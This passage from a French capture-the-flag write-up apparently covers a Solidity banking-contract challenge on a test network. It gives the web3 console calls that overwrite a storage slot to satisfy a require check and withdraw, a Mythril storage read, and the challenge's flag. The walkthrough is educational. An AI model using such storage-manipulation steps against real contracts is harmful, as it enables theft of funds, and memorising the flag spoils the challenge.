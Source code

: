 La valeur de `moneyAmount`est bien passée de `0` à `0x456`. Modifions encore cette valeur pour passer le require.

```js
contract.putMoneyOnAccount("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", "0xffffffff", (err,res)=>{console.log(err,res);});
```

```bash
$ myth read-storage --rpc infura-ropsten 0 0xde89B12A8c06e608D99d4C4d2a98708F984Ed0a5
0: 0x00000000000000000000000000000000000000000000000000000000ffffffff
```

Enfin pour respecter la seconde condition du require, nous devons appeler le fonction `withdrawMoneyFromAccount` avec en paramètre un numéro de compte qui respecte cette condition: `savingAccounts[accountNumber] >= 1`, on peut réutiliser l'adresse du slot 0, cela a peu d'importance.

```js
contract.withdrawMoneyFromAccount("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", (err,res)=>{console.log(err,res);});
```

On peut alors récupérer le flag.

`SANTA{Y0u_Fin4lLy_DiD_i7!!!}`

# Remarques

Il est aussi possible d'utiliser directement l'IDE [Remix](https://remix.ethereum.org/) pour résoudre les challenges, ce dernier étant plus user-friendly. J'ai préféré débuter directement dans la console, pour mieux comprendre les mécanismes.